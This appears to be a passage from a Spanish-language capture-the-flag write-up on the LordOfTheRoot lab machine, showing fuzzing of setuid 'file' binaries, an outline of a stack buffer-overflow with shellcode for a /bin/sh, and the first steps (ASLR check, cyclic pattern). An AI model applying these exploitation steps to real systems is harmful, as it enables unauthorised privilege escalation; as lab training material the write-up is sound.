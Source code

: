 Nos pide ingresar una cadena, probamos ingresar `300 A` usando python para ver si se rompe el programa.

En los directorios `/SECRET/door1` y `/SECRET/door3` el archivo `file` no son vulnerables a buffer overflow.

```bash
smeagol@LordOfTheRoot:/SECRET/door1$ ./file $(python -c 'print "A" * 300')

smeagol@LordOfTheRoot:/SECRET/door2$ ./file $(python -c 'print "A" * 300')
Segmentation fault (core dumped)

smeagol@LordOfTheRoot:/SECRET/door3$ ./file $(python -c 'print "A" * 300')
```

El archivo `file` dentro `/SECRET/door2/`{: .filepath} es vulnerable.

`Pasos del buffer overflow:`{: .filepath}

1. Validar [**ASLR**](https://lovtechnology.com/que-es-aslr-address-space-layout-randomization-como-funciona-y-para-que-sirve/).
2. Crear una cadena de caracteres con `msf-pattern_create` para obtener el valor de `EIP`.
3. Utilizar  `msf-pattern_offset` para calcular la longitud del patrón de caracteres.
4. Encontrar el `jmp ESP`, para poner nuestro script en la pila de ejecución, siempre y cuando `ASLR` esté desactivado.
5. Usamos un `shellcode` para ejecutar una **/bin/sh**, anteponiendo `NOPS` para darle tiempo al cpu.

#### Comenzamos:

Comprobamos que la máquina víctima tiene instalado `gdb` para depurar el programa.

```bash
smeagol@LordOfTheRoot:/SECRET/door2$ which gdb
/usr/bin/gdb
```

1 - Validamos si el Sistema Operativo tiene activado <kbd>ASLR</kbd> de la siguiente manera.

```bash
smeagol@LordOfTheRoot:/SECRET/door2$ cat /proc/sys/kernel/randomize_va_space
2
```

Lo tiene activado `(2)`{: .filepath} y al no ser usuario con privilegios no podemos alterar dicho parámetro, con lo cual vamos a estar frente a aleatorización de direcciones. Para poder saltar esto, vamos a tener que correr un bucle hasta que demos con una dirección de memoria correcta y pueda ejecutar nuestro payload.

2 - Creamos una cadena de 300 caracteres con <kbd>msf-pattern-create</kbd> y abrimos el programa *file* con **gdb**.

Obtenemos el valor de `EIP`.

```bash
❯ msf-pattern_create -l 300
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9
```
